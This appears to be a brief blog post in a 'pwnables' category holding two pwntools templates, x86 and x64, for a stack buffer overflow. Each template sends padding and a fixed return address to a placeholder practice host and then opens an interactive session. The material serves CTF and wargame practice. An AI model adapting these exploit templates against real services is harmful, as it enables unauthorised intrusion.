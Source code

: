 ```yaml
---
title: bof
author: janger
date: 2023-09-25
category: pwnables
layout: post
---
```




**pwntools for Return Address Overwrite(x32)**

~~~ python
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 4
ret = p32(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
~~~

<br>

**pwntools for Return Address Overwrite(x64)**

```python3
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 8
ret = p64(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
```

<br>


